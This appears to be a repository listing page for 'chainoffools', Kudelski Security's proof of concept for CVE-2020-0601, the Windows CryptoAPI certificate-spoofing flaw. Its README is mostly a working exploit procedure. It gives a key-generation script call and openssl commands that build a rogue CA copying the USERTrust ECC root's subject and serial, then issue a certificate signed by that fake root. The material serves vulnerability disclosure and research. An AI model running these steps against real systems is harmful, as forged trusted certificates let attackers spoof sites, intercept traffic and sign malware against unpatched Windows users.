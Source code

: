 # chainoffools

A PoC for CVE-2020-0601

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/kudelskisecurity](https://github.com/kudelskisecurity) |
| Url      | [https://github.com/kudelskisecurity/chainoffools](https://github.com/kudelskisecurity/chainoffools)                                               |
| Stars    | 341                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>



</details>

## Readme

# CryptoAPI

CVE-2020-0601: Windows CryptoAPI Spoofing Vulnerability exploitation. More information in our [blog post](https://research.kudelskisecurity.com/2020/01/15/cve-2020-0601-the-chainoffools-attack-explained-with-poc).

# Install requirements

```bash
pip install -U -r requirements.txt
```

# CA certificate

We used the [USERTrust ECC Certification Authority](http://www.tbs-x509.com/USERTrustECCCertificationAuthority.crt) but it can be any root certificate working on P-384 curve.

To generate a private key which match the public key from the root certificate we used the script **gen-key.py** (works with Python 3.6 and above):
```bash
$ ./gen-key.py RootCert.pem 
```

The key can be displayed with:
```bash
$ openssl ec -in p384-key-rogue.pem -text
```

Then to generate the rogue CA:

```bash
$ openssl req -key p384-key-rogue.pem -new -out ca-rogue.pem -x509 -set_serial 0x5c8b99c55a94c5d27156decd8980cc26
```

With "C = US, ST = New Jersey, L = Jersey City, O = The USERTRUST Network, CN = USERTrust ECC Certification Authority" parameters

Then we generate the following private key and certificate:
```bash
openssl ecparam -name prime256v1 -genkey -noout -out prime256v1-privkey.pem

openssl req -key prime256v1-privkey.pem -config openssl.cnf -new -out prime256v1.csr

openssl x509 -req -in prime256v1.csr -CA ca-rogue.pem -CAkey p384-key-rogue.pem -CAcreateserial -out client-cert.pem -days 500 -extensions v3_req -extfile openssl.cnf 
```



## Get the content

```
git clone https://github.com/kudelskisecurity/chainoffools
cd chainoffools
```

{% embed url="https://github.com/kudelskisecurity/chainoffools" %}

<figure><img src="https://avatars.githubusercontent.com/u/10771090?v=4" alt=""><figcaption><p>kudelskisecurity</p></figcaption></figure>
